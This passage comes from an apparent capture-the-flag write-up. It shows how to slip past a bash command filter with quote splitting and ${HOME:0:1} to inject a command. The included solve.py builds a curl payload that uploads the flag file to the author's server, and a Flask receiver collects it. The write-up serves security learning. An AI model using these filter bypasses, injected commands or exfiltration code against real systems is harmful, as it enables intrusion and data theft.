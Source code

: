 ```python
    return False
```

We can bypass most of the linux command words using this technique `c''url` and to bypass the `/` we can do `${HOME:0:1}`. https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

The command I used does a POST request to my file upload server with the /flag.png attached in the body 

solve.py 
```python
import os
import requests 
from waf import sus

# curl -F data=/flag.png <ip:port>
payload = "cu''rl -F \"data=@${HOME:0:1}flag.png\" <redacted>"
content = f"""123" ; {payload} ; e''cho "123"""
assert not sus(content)
filename = "test"
command = f"bash -c \'echo \"{content}\" > {filename}\'"
print(content)
print(command)
# os.system(command) 

url = "https://threecityelf-53b6fe52e327b2cb.instancer.b01lersc.tf/pentest_submitted_flags"

json = {
    'content': content
}
r = requests.post(url, json=json)
print(r.text)
```


server.py 
```python
from flask import Flask, request
import os

app = Flask(__name__)

UPLOAD_FOLDER ='uploads'
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
@app.route('/', methods=["POST"])
def xfil():
    try:
        file = request.files['data']
        filename = file.filename
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
    except Exception as e:
        return str(e)
    return 'Success'
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8901)
```
